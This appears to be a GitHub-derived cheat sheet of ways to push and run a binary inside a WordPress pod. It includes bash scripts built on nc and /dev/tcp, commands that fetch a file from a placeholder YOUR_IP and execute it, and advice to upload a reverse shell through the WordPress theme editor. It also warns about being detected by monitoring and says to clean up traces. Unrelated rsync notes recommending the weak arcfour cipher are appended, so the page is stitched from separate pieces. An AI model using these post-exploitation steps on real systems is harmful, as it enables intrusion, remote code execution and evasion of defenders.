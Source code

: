 

```
#!/bin/bash

# Usage: ./transfer_file.sh <file_to_transfer> <pod_ip> [<port>]
if [ "$#" -lt 2 ]; then
  echo "Usage: $0 <file_to_transfer> <pod_ip> [<port>]"
  exit 1
fi

FILE_TO_TRANSFER=$1
POD_IP=$2
PORT=${3:-8000}

# Check if the file exists
if [ ! -f "$FILE_TO_TRANSFER" ]; then
  echo "File not found: $FILE_TO_TRANSFER"
  exit 1
fi

# Notify the user of the setup and start the listener
echo "Setting up listener on port $PORT for file transfer..."
echo "Run 'receive_file.sh' on the WordPress pod to receive the file."
nc -lvp "$PORT" < "$FILE_TO_TRANSFER"
```

##
##


```
#!/bin/bash

# Usage: ./receive_file.sh <local_machine_ip> <port> <output_filename>
if [ "$#" -lt 3 ]; then
  echo "Usage: $0 <local_machine_ip> <port> <output_filename>"
  exit 1
fi

LOCAL_MACHINE_IP=$1
PORT=$2
OUTPUT_FILE=$3

# Set up the connection and receive the file
exec 3<>/dev/tcp/$LOCAL_MACHINE_IP/$PORT
cat <&3 > "$OUTPUT_FILE"
echo "File received as $OUTPUT_FILE."
exec 3<&-  # Close input stream
exec 3>&-  # Close output stream
```


##
#
https://github.com/babywyrm/ultimate-file-transfer-list
#
##


1. Base64 Encoding + Copy/Paste
Base64 encoding is a common way to convert binary data into a text format that can be easily copied and pasted between machines. Once you paste the Base64 data, you decode it back into its binary form.

Steps:

On your local machine, encode the binary (e.g., your_binary) into Base64:

```
base64 your_binary > binary.b64
```
This converts the binary file into a long string of Base64 text.

On the WordPress pod, create a new file where you can paste the Base64 string:

```
cat > binary.b64
```

After running the command, paste the Base64 content into the pod and press Ctrl+D to save the file.

Decode the Base64 file back into the original binary:

```
base64 -d binary.b64 > your_binary
chmod +x your_binary   # Make it executable
./your_binary          # Run the binary
```

Why it works: Even without network utilities (curl, wget, etc.), most shells have cat and base64 utilities. This approach works as long as the shell supports Base64 decoding.

2. echo or printf File Transfer (Hex Dumping)
Hex dumping is another way to convert binary files into text that can be easily pasted into a terminal. It works similarly to Base64 but uses hexadecimal encoding.

Steps:

On your local machine, convert the binary file into hexadecimal using xxd:

```
xxd -p your_binary > binary.hex
```

This creates a text file containing the hexadecimal representation of the binary.

On the WordPress pod, create a file to paste the hex dump into:

```
cat > binary.hex
```

Paste the hex content and save it with Ctrl+D.

Convert the hex back into a binary file:

```
xxd -r -p binary.hex your_binary
chmod +x your_binary    # Make it executable
./your_binary           # Run the binary
```

Why it works: Like Base64, xxd is often available in shells. This method is especially useful for small files since it doesn't require additional tools.

3. Script a Reverse Shell to Transfer Files
If you can establish a reverse shell, you can use it to create a file transfer connection between your local machine and the pod. A reverse shell allows the pod to connect back to a listener on your machine.

Steps:

On your local machine, set up a simple HTTP server to host the file:

```
python3 -m http.server 8000
```

This command will serve files in the current directory over HTTP on port 8000.

On the WordPress pod, use bash to connect to your local server:

```
exec 5<>/dev/tcp/YOUR_IP/8000
cat <&5 > your_binary   # Save the incoming data into your_binary
```

After the file transfer completes, make the binary executable:

```
chmod +x your_binary
./your_binary
```
Why it works: If /dev/tcp is enabled in the shell, you can establish raw TCP connections without needing curl or nc. This approach relies on creating an outbound connection to your server.

4. Use the WordPress Filesystem
Since you are working with a WordPress pod, there may be opportunities to upload files directly via the WordPress admin interface if it is accessible.

Steps:

Access the WordPress dashboard (if possible) using a browser.
Go to Appearance > Theme Editor or Plugins > Plugin Editor.
If editing is enabled, you can upload a reverse shell script or a file containing the binary data by embedding it into PHP code. For example, you could use PHP to decode a Base64 string and save it as a file on the server.
Caution: This method is potentially noisy because changes to the WordPress site could be detected by monitoring systems. Always clean up after any changes you make.

5. Leverage Kubernetes Features
If the WordPress pod is running in a Kubernetes environment and you have some access to Kubernetes features, you may be able to use kubectl to copy files directly into the pod.

Steps:

On a machine that has Kubernetes admin privileges, use kubectl cp to copy a file from your local system into the WordPress pod:

```
kubectl cp ./your_binary default/wordpress-pod:/path/to/destination
```
Then, on the pod:

```
chmod +x /path/to/destination/your_binary
/path/to/destination/your_binary
```

Why it works: If you have access to Kubernetes admin tools like kubectl, you can directly interact with the pod’s filesystem.

6. Using /dev/tcp for Transfers
Some shells support file transfers using bash built-in TCP connections through /dev/tcp/. You can use this feature to download files from your machine.

Steps:

On your local machine, start a listener that serves the binary file:

```
nc -lvp 8000 < your_binary
```
On the WordPress pod, use bash to connect to the listener and receive the file:

```
exec 3<>/dev/tcp/YOUR_IP/8000
cat <&3 > your_binary
```

Once the file is downloaded, make it executable:

```
chmod +x your_binary
./your_binary
```

Why it works: 
/dev/tcp is a lesser-known but powerful feature in bash that can be used to establish direct TCP connections without needing extra tools like nc.


# Key Considerations:
File Size: These methods work well for smaller files (typically under a few MB). For larger files, you'll need to split them into chunks or find another solution.

Security Monitoring: Some methods (e.g., modifying WordPress files or using reverse shells) can be more easily detected by security systems or leave traces. Be mindful of any cleanup you need to do afterward.

Pod Privileges: Your ability to use these methods depends on the configuration of the shell environment. For example, /dev/tcp might not be available on every shell.



```
### The fastest remote directory rsync over ssh archival I can muster (40MB/s over 1gb NICs)

#### This creates an archive that does the following:

**rsync**
(Everyone seems to like -z, but it is much slower for me)

- a: archive mode - rescursive, preserves owner, preserves permissions, preserves modification times, preserves group, copies symlinks as symlinks, preserves device files.
- H: preserves hard-links
- A: preserves ACLs
- X: preserves extended attributes
- x: don't cross file-system boundaries
- v: increase verbosity
- --numeric-ds: don't map uid/gid values by user/group name
- --delete: delete extraneous files from dest dirs (differential clean-up during sync)
- --progress: show progress during transfer

**ssh**
- T: turn off pseudo-tty to decrease cpu load on destination.
- c arcfour: use the weakest but fastest SSH encryption. Must specify "Ciphers arcfour" in sshd_config on destination.
- o Compression=no: Turn off SSH compression.
- x: turn off X forwarding if it is on by default.

**Original**

```sh
rsync -aHAXxv --numeric-ids --delete --progress -e "ssh -T -c arcfour -o Compression=no -x" user@<source>:<source_dir> <dest_dir>
```


**Flip** 

```sh
rsync -aHAXxv --numeric-ids --delete --progress -e "ssh -T -c arcfour -o Compression=no -x" [source_dir] [dest_host:/dest_dir]
```
```
